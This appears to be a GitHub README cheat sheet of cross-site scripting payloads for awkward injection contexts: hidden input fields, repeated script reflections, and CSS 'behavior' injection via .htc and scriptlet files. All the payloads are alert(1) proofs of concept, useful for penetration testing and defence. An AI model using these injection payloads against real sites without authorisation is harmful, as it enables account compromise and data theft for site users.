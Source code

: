 # About XSS Problems

This is a public cheat sheet to help you solve problems you might encounter while trying to XSS a target, you can contribute by telling me your problems or solutions. If you find a solution, make sure they work in one of the following browsers: Chrome, Firefox, IE/Edge (IE version 9 or above), Safari and Opera. This Cheat Sheet is never finished, so I might add more over time.

Extra solutions to solved problems are also welcome.

---


# Problems and Solutions


## Hidden Input fields


📝 **Problem**

```
<input type="hidden" value="[injection-point]">
```

Greater than (>) and Less than (<) are properly encoded, you can only add attributes to the input tag.

💡 **Solution(s):**

```
'"/autofocus/onfocus='alert(1)'x=
```


**Note:**

This only works if the input element is in the following form.

```
<input value="[injection-point]" type="hidden">
```

It's not very common but it does happen.

By [me](https://twitter.com/Karel_Origin).

💡

```
'"/onclick='alert(1)'/accesskey='X'
```


**Note:**

Requires you to press ALT+SHIFT+X on Windows/Linux or CTRL+ALT+X on OS X. (Only works in Firefox.)

By [PortSwigger](http://blog.portswigger.net/2015/11/xss-in-hidden-input-fields.html).

---



## Multiple reflections in a script context


📝 **Problem**

```
x = "[injection-point]"
y = "[injection-point]"
```

Double quotes are properly encoded, it's only possible to escape the string with %0A and escape quotes using \


**Note:**

The same parameter is used for both injection points.

Injecting "1" in parameter "x" will result in:

```
x = "1"
y = "1"
```

💡 **Solution(s):**
There is no solution yet. But feel free to [submit](https://github.com/karelorigin/XSS-Problems/issues/new) an issue and help :)

---



## CSS Injection to XSS

📝 **Problem**

```
<input style="[injection-point]">
```


**Note:**

We dont want to double fire the payload.


💡 **Solution(s):**

```
behavior: url(xss.htc)
```

Contents xss.htc:
```
<script>alert(1)</script>
```


**Note:**

xss.htc needs to be served as `text/x-component` and only works in docmode 9 which makes this payload pretty useless

💡

```
behavior: url(xss.txt)
```

Contents xss.txt:
```
<scriptlet>  
    <implements type="behavior"/>
    <script>alert(1)</script>
</scriptlet>  
```


**Note:**

This doesn't work Cross-Domain, which means that you need to be able to upload a file to the current domain. The file needs to be served with one of the following Content-Types.

1. text/html
1. text/plain
1. image/*
1. video/mpeg
1. video/avi

This technique won't work if the site uses the `X-Content-Type-Options: nosniff` or `Content-Disposition: attachment` header.

By [Filedescriptor](http://blog.innerht.ml/cascading-style-scripting/).

---



# Contribute

That's it! feel free to [submit](https://github.com/karelorigin/XSS-Problems/issues/new) an issue and help others with their XSS problems.
